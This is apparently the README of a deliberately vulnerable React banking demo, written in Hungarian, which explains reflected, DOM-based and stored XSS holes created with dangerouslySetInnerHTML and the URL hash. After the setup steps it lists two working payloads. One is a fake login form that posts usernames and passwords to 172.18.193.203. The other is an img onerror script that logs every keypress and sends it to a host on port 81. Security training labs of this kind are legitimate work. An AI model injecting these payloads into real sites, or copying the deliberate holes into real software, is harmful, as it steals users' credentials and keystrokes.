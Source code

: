 # React XSS Bank

Ez az alkalmazás háromféle XSS sebezhetőséget demonstrál:
- **Reflected XSS:** A keresőoldalon a felhasználó URL paraméterét a `dangerouslySetInnerHTML` segítségével jelenítjük meg.
- **DOM-based XSS:** A befektetési alapok oldalon a böngésző URL hash részét olvassuk be, és közvetlenül a DOM-ba illesztjük be.
- **Stored XSS:** Az ügyfélüzenetek (feedback) oldalon a felhasználók által beküldött üzeneteket (amelyek tárolva vannak a localStorage-ban) jelenítjük meg a `dangerouslySetInnerHTML` használatával.

## Futtatás

1. Node.js telepítése
2. git clone
3. cd react-xss-bank
4. npm install
5. npm start


<form action="http://172.18.193.203" method="post"> 
<label for="username">Felhasználó:</label><br> 
<input type="text" id="username" name="username"><br><br> 
<label for="password">Jelszó:</label><br> 
<input type="password" id="password" name="password"><br><br> <input type="submit" value="Belépés"> 
</form>

<img src=x onerror="(() => {
  document.onkeypress = function(e) {
          var k = e.key || String.fromCharCode(e.which || e.keyCode);
          var x = new XMLHttpRequest();
          x.open('GET', 'http://172.18.193.203:81/keystrokes?key=' + encodeURIComponent(k), true);
          x.send();
        };
})()">


